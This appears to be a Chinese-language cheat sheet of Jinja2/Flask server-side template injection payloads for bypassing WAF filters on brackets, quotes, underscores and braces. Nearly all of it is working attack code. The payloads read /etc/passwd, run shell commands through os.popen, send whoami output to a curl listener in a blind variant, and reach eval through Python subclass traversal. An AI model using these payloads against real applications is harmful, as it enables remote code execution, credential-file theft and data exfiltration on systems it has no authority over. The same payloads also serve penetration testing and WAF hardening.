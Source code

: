 

###  一些绕waf的姿势：

**过滤[**

```
#getitem、pop
''.__class__.__mro__.__getitem__(2).__subclasses__().pop(40)('/etc/passwd').read()
''.__class__.__mro__.__getitem__(2).__subclasses__().pop(59).__init__.func_globals.linecache.os.popen('ls').read()
```

**过滤引号**



```
#chr函数
{% set chr=().__class__.__bases__.__getitem__(0).__subclasses__()[59].__init__.__globals__.__builtins__.chr %}
{{().__class__.__bases__.__getitem__(0).__subclasses__().pop(40)(chr(47)%2bchr(101)%2bchr(116)%2bchr(99)%2bchr(47)%2bchr(112)%2bchr(97)%2bchr(115)%2bchr(115)%2bchr(119)%2bchr(100)).read()}}#request对象
{{().__class__.__bases__.__getitem__(0).__subclasses__().pop(40)(request.args.path).read() }}&path=/etc/passwd
#命令执行
{% set chr=().__class__.__bases__.__getitem__(0).__subclasses__()[59].__init__.__globals__.__builtins__.chr %}
{{().__class__.__bases__.__getitem__(0).__subclasses__().pop(59).__init__.func_globals.linecache.os.popen(chr(105)%2bchr(100)).read() }}
{{().__class__.__bases__.__getitem__(0).__subclasses__().pop(59).__init__.func_globals.linecache.os.popen(request.args.cmd).read() }}&cmd=id
```



**过滤下划线**

```
{{''[request.args.class][request.args.mro][2][request.args.subclasses]()[40]('/etc/passwd').read() }}&class=__class__&mro=__mro__&subclasses=__subclasses__
```

**过滤花括号**

```
#用{%%}标记
{% if ''.__class__.__mro__[2].__subclasses__()[59].__init__.func_globals.linecache.os.popen('curl http://127.0.0.1:7999/?i=`whoami`').read()=='p' %}1{% endif %}
```

**利用示例：**



```
{% for c in [].__class__.__base__.__subclasses__() %}
{% if c.__name__ == 'catch_warnings' %}
  {% for b in c.__init__.__globals__.values() %}
  {% if b.__class__ == {}.__class__ %}
    {% if 'eval' in b.keys() %}
      {{ b['eval']('__import__("os").popen("id").read()') }}         //popen的参数就是要执行的命令
    {% endif %}
  {% endif %}
  {% endfor %}
{% endif %}
{% endfor %}
```
